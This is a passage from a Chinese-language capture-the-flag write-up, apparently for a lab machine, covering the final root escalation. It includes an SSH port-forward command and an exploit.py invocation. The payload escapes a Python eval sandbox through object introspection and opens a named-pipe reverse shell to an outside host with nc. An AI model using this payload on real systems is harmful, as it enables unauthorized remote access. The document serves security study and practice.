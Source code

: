 枚举发现该用户下存在 kry... 文件夹...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmxYlI7lJxUpLOPpMxPf7JTGkI3DWMtNia9h7IgnI0X0S7KG4Gq4wyNqw/640?wx_fmt=png)

查看 kryptos.py 代码，这是一个 localhost 在端口 81 上运行的服务器，可以看到通过向 / eval 发送请求，参数 expr 得到了评估后并执行从而有一个内置的控件，但是该参数 sig 必须是有效的签名，并且所有内置函数均被禁用...

意思就是它仅评估带符号的表达式，就算可以绕过该保护，也无法执行有用的操作，因为 builtins 被禁用了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmNYHkRqzicrYgvhlSSZnfahRRnstfVQ5PzxJ1YEiaFIO4Gy9HrH0fjzsw/640?wx_fmt=png)

认证了本地是开放了 81 端口的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmoElvFtAnDjTFGEZJ5vZKo1FgpibuWyl2ibVr1M4SX6obwThKojWKWRTg/640?wx_fmt=png)

```
ssh -L 81:localhost:81 rijndael@10.10.10.129
```

为了方便执行，我将流量转发到本地...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmEjhx5xa7wUICWpDxDSWFxQCickSCW7QLFvTu7BcuicAlFicZpFYW5RaNw/640?wx_fmt=png)

在反复测试中，发现样本大小为 500 会产生足够的签名键冲突，最终将创建一个有效的签名来欺骗服务器...

知道了大小，最后需要绕过 `eval(expr, {'__builtins__':None})`...

通过 google 搜索可不 python 等内容...

Python 中的所有内容都是一个对象，只要有权访问对象类，就可以使用 Python 在当前作用域中的内部函数和属性进行检索 `__builtins__`，即使将其设置为 None 也可以...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmcVDvgBAVTI892YcbVpjsD2SQ9UZ1wDRhSNMAOC4yFTfrNcGu0HvhIQ/640?wx_fmt=png)

```
python3 exploit.py 500 "{}.__class__.__mro__[1].__subclasses__()[121].__init__.__globals__['__builtins__']['__import__']('os').system('rm -f /tmp/p; mknod /tmp/p p; /bin/bash </tmp/p | nc 10.10.14.51 1234 >/tmp/p')"
```

利用端口转发，然后通过了解 python 等原理后，利用以上代码获得了反向外壳 root 权限...

![](https://mmbiz.qpic.cn/mmbiz_png/x2A34tB6DJ1OkPcdribDzibshJwyiacGV0dL6xyJSMoUODic9LUULgNOnWiciaLpD2A7HtR7e6GqhqAkw8zXBObGceYA/640?wx_fmt=png)

获得了 root_flag 信息... 这是近一个月最累的一台靶机.... 快吐了...

这台靶机真的算盲区知识... 坚持了 3~4 个晚上的时间，终于完成了...

学到了很多很多...

sql 注入 -- 数据库 Error 信息熟悉 --MSF-mysql 数据流抓取 --john 爆破 -- 熟悉 mysql 创建信息 --socat 通道开启 --tcpdump 抓包 --wireshark 分析流量包 -- 需熟悉 AES-CBC 和 RC4 密码原理 -- 页面枚举获得进一步信息 --LFI 漏洞与 view 利用 --SQLite3 SQL 脚本熟悉 --PHP 过滤器熟悉获得隐藏 base64 值 -- 创建脚本枚举 php-- 利用 Chankro 生成反弹 shell-- 利用 VIM 的 EXP 爆破 creds 文本获得 ssh 密码 -- 深入熟悉 python 对象原理 -- 利用 SSH 端口转发 -- 利用 python 枚举正确数值和绕过 builitin 限制最终获得反弹 shell...

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台疯狂的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/Rhl7Fe1Ew2icdiaxAoicRDTOcic6uZqjKNRuQTmL2KnOQaSBwas6DeYNdq479WEFto9n2bssQXlvVic2bGGlQghxWVg/640?wx_fmt=png)
